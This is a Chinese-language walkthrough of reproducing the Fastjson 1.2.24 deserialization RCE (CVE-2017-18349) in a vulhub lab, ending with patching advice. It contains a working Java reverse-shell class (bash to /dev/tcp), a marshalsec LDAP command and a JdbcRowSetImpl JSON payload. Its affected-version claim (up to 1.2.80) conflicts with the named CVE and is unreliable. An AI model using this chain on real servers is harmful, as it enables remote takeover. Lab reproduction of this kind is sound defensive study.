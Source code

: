 # Fastjson 1.2.24-rce漏洞（CVE-2017-18349）

### 0x00 前言

fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。即fastjson的主要功能就是将Java Bean序列化成JSON字符串，这样得到字符串之后就可以通过数据库等方式进行持久化了。

阿里巴巴公司开源Java开发组件Fastjson存在反序列化漏洞（CVE-2017-18349）。攻击者可利用该漏洞实施任意文件写入、服务端请求伪造等攻击行为，造成服务器权限被窃取、敏感信息泄漏等严重影响。

影响版本：

```
fastjson 1.2.80及之前所有版本
```



### 0x01 环境搭建

这里使用的vulhub的靶场`fastjson/1.2.24-rce`

![image-20230412095028523](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412095028523.png)

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

### 0x02 POC/EXP

cve_2017_18349_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Fastjson/cve_2017_18349_poc.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_scan_start("http://192.168.12.130:8090")
```

### 0x03 漏洞复现

1、准备工具[marshalsec-0.0.3-SNAPSHOT-all.jar]([https://github.com/mbechler/marshalsec])

2、编译并上传命令执行代码`Getshell.java`，生成`Getshell.class`文件

```java
// javac Getshell.java
import java.lang.Runtime;
import java.lang.Process;

public class Getshell {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/exp_ip/exp_port 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

`exp_ip`: 指接收反弹shell的主机

`exp_port`: 指接收反弹shell的主机的端口

3、打开http服务

```shell
python -m http.server 8080
```

4、利用marshalsec工具，启动一个LDAP服务器，监听9999端口

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://打开http服务的IP/#Getshell" 9999
```

5、构造数据包，发送到目标服务器，获取shell

```
POST / HTTP/1.1
Host: 192.168.12.130:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 164

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://启动LDAP服务器的IP:9999/Getshell",
        "autoCommit":true
    }
}
```

![image-20230412114840055](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412114840055.png)

### 0x04 修复建议

1、建议升级到最新版本1.2.83。

2、safeMode加固。Fastjson在1.2.68及之后的版本中引入了safeMode，配置safeMode后，无论白名单和黑名单，都不支持 autoType，可杜绝反序列化Gadgets类变种攻击。

3、升级至Fastjson v2。
